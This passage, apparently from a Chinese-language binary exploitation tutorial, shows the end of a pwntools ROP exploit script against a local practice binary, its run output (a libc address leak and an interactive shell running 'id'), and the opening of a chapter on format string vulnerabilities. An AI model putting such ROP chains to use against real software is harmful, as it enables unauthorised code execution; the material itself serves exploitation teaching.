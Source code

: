 ```python
rop2 += p64(0)
rop2 += p64(syscall)

p.recvuntil("hello\n")
p.sendline(rop2)
p.interactive()
```

运行结果：

```bash
ubuntu@ubuntu:~/Desktop/PWN$ python rop.py 
[+] Starting local process './rop': pid 4296
[*] '/home/ubuntu/Desktop/PWN/rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
  p.recvuntil('\n')
[*] libc:0x7f10cc852000
  p.recvuntil("hello\n")
[*] Switching to interactive mode
$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

## 第 5 章 格式化字符串漏洞

### 5.1 漏洞原理

C 语言中常用的格式化输出函数如下：

```
int printf(const char *format, ...)
int fprintf(FILE *stream, const char *format, ...)
int sprintf(char *str, const char *format, ...)
int snprintf(char *str, size_t size, const char *format, ...);
```

以 printf 为例，在C 语言中，printf 的常规用法为：

```
printf("%s\n", "hello world!")
printf("number:%d\n", 1)
```
